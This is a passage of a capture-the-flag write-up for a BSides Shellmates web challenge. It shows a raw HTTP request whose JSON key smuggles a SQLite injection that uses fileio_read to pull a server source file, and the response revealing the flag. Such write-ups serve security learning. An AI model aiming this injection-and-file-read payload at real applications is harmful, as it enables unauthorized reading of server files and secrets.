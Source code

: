 From there, we do :

```
POST /jokes HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Content-Length: 78
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://jokes-hub-1.bsides.shellmates.club
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://jokes-hub-1.bsides.shellmates.club/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"CAST(fileio_read('../flagger/flagger.py') AS TEXT ENCODING 'utf-8');--":100}
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 08:32:30 GMT
content-type: application/json
content-length: 550
connection: close

{"result":"from flask import Flask, request\nimport os\n\n#shellmates{it5_l1k3_5q1i73_0n_573r01d5}\n\nflagger = Flask(__name__)\n\nSECRET = os.getenv(\"SECRET\")\n\n@flagger.route('/getFlag/<secret>', methods=['GET'])\ndef getFlag(secret):\n    if secret == SECRET:\n        return os.popen(\"/flag\").read()\n    return \"Wrong secret\"\n\n@flagger.route('/fileReader/', methods=['GET'])\ndef getFile():\n    file = request.args.get(\"file\",\"\")\n    if os.path.exists(file):\n        return open(file).read()\n    return \"File doesn't exist\""}
```

Which contains the flag directly.


## Flag

shellmates{it5_l1k3_5q1i73_0n_573r01d5}

## More Information

 - https://github.com/nalgeon/sqlean/blob/main/docs/fileio.md
 - https://antonz.org/sqlean-fileio/
 - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
